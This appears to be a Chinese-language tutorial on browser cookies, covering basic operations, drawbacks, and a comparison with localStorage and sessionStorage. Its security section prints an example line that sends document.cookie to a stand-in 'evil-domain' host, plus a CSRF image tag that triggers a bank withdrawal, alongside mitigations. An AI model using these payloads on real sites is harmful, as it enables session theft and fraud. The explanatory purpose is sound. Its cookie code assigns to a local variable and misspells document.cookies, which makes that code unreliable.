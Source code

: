 ### Cookies

由服务器端发送到客户端并存储下来的字符串储存数据. 用于管理会话, 追踪用户信息. 自从有了localStorage和sessionStorage之后, cookies不被推荐用于储存数据了.

#### 基本CRUD操作

```js
// create
let cookie = document.cookie;
cookie = 'user_name=Lorry';
// read
console.log(cookie);
// update
cookie = 'user_age=25;max-age=31536000;secure';
//delete
cookie = 'user_name=Lorry;expires=Thu, 01 Jan 1970 00:00:01 GMT';
```

#### Cookies的优点:
- 与服务器端通信
- 当快要过期时可以重新设置而不是删除

#### 缺点
- 增加document的负载(我认为不是很大)
- 只能存储少量的数据
- 只能存储字符串(这是`localStorage`和`sessionStorage`的共缺, 但他们至少还支持JSON话的`string`, `cookies`不支持)
- 潜在的安全问题
#### 对这个安全问题简单展开一下:

因为cookie经常用于鉴权, 如果在网页中内嵌一个ifram, 然后携带cookies访问, 就会造成危险. 唯一能保护这类cookie的方式是使用不同的域或子域.
`document.cookies='name=lorry;password=123;domain=example.com'`

可是使用Img可以绕开跨域访问限制, 实施`XSS(cross site script)`攻击, 例如
```js
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```
我们就可以设置HTTP-only cookies, 一旦cookies的属性被设置为HTTP-only, 那么就不能通过`document.cookies`获取了

`document.cookies='name=lorry;password=123;secure'`

设置了secure后, 在chrome52以前是只能通过http协议进行访问, 而之后则只能通过https进行访问.

那么CSRF问题又来了, 比如:
```js
<img src="http://bank.example/withdraw?account=bob&amount=1000000&for=mallory">
```
如果用户已经登录了网站,并且有了cookies, 在里面有一个恶意代码, 会发送一个请求, 用户的`cookies`也同时会发出, 那么银行就会认为验证有效, 所以便会成功把钱给转到骗子的账户.

##### 如何避免呢?
- 敏感信息需要再次确认, 且不能直接访问, 比如转账,取钱, 应有一个中间页, 需要再次输入密码鉴权.
- 尽可能设置短的`cookies`过期时间, 比如几分钟
- 验证时不仅仅依赖于`cookies`, 同时需要验证请求的方式, 比如使用 `POST`
而不是`GET`

## 横向对比

储存模式|大小|描述|读权限|老式浏览器兼容性|
--|--|--|--|--
LocalStorage| 5Mb/10Mb储存大小| 不基于会话, 需要通过js或手动在devtool中清楚 | 客户端 | 欠佳
SessionStorage| 5Mb 储存大小|基于每个窗口或tab的会话|客户端|欠佳
Cookie| 4Kb|过期时间需要设置并且在每个窗口或tab上工作|服务端和客户端|好

